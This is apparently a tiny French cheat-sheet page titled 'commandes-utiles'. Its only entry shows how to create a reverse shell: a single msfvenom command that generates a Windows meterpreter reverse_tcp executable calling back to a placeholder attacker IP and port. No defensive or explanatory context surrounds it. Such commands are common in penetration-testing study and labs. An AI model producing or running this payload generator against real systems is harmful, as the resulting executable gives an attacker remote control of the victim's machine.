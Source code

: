 # commandes-utiles

Créer un reverse shell msfvenom \
<code>
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
 </code>
